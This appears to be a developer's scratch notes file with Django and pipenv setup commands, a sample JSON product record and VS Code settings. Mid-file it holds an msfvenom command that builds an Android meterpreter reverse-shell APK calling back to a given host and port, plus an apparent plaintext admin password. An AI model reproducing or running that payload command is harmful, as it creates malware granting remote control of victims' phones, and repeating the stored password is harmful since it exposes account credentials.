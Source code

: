 pip install pipenv
pipenv shell

pipenv install django
pip install django

port:1024

django-admin startproject e_commerce .
python manage.py startapp store

pipenv install djangorestframework


to know lib in django ==== " freeze >requirments.txt " 

python manage.py runserver
python manage.py makemigrations
python manage.py migrate
python manage.py sqlmigrate store 0003
python manage.py showmigrations

lemonAdmin@3!
git log --oneline
### password 
python manage.py createsuperuser
python manage.py changepassword "hazem"
pipenv install django-bootstrap4

install Thems:

pipenv install django-grappelli
python -m pip install pillow

16450-16460  
8391
https://hazem:8391

msfvenom --platform android -p android/meterpreter/reverse_tcp LHOST=192.168.242.128 LPORT=443 -o /root/home/mobile.apk



{
   "title" : "b" ,
   "slug" : "b" ,
   "unit_price" : 2 ,
   "collection" : 2,
   "inventory" : 2
}




    "workbench.iconTheme": "material-icon-theme",
    "terminal.integrated.defaultProfile.windows": "Command Prompt",
    "git.autofetch": true,
    "tabnine.experimentalAutoImports": true,
    "git.enableSmartCommit": true,
    "git.confirmSync": true,
    "editor.linkedEditing": true,
    "[html]": {
        "editor.defaultFormatter": "vscode.html-language-features"
    },
    "vscode-edge-devtools.webhintInstallNotification": true,
    "editor.formatOnSaveMode": "modifications",
    "files.autoSave": "afterDelay"